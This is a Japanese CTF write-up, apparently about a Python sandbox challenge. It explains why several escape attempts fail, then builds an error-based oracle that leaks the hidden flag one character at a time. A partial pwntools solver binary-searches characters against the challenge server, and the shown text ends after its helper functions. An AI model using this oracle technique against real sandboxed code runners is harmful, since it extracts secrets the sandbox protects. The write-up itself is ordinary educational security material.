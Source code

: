 最初に以下が書かれているため、`print(_)`が実行できればflagが出力できます。

```py
for _ in [flag]:
```

一番手っ取り早そうなのは、Exceptionを発生させて`print(err)`を実行させることかなと思いました。

```py
>>> _="flag"
>>> int(_)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 10: 'flag'
```

が、`int(_)`のようにExceptionのエラーメッセージに変数の値が出力させる方法では、`e`や`t`が邪魔をして実行できませんでした。`float(_)`とかも。  
`\x`形式は`\`が`\\`になるためダメ。

```py
>>> code = ascii(input("Give code: "))
Give code: \x70\x72\x69\x6E\x74\x28\x5F\x29
>>> print(code)
'\\x70\\x72\\x69\\x6E\\x74\\x28\\x5F\\x29'
```

入力値を`ascii()`に入れているため、以下のようにしても文字列になるだけ。

```py
(lambda:chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(95)+chr(41))()
```

仕方ないので、エラーベースで総当たりする方法を試しました。  
以下のように書くと、`ord(_[0])==97`がTrueのときにはTypeErrorが発生します。  
Falseのときには何も起きないので、レスポンスのメッセージからフラグの判別が可能になります。

```py
>>> _="ama"
>>> ord(_[0])==97 and chr('a')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: an integer is required (got type str)
>>>
>>> ord(_[0])==98 and chr('a')
False
```

時間かかるとサーバから切断されるので、2分探索をしています。  
開催中は面倒だったので線形探索で時間かけてやりました。

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# KEYS = list(" .:,~^)(=-_&@#!'\"$%?}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ")
io = remote("amt.rs", 31670)
io.recvuntil(b"Give code: ")

def is_left(n: int, min: int, mid: int) -> bool:
  payload = f"{min}<=ord(_[{n}]) and ord(_[{n}])<{mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_right(n: int, mid: int, max: int) -> bool:
  payload = f"{mid}<ord(_[{n}]) and ord(_[{n}])<={max} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

```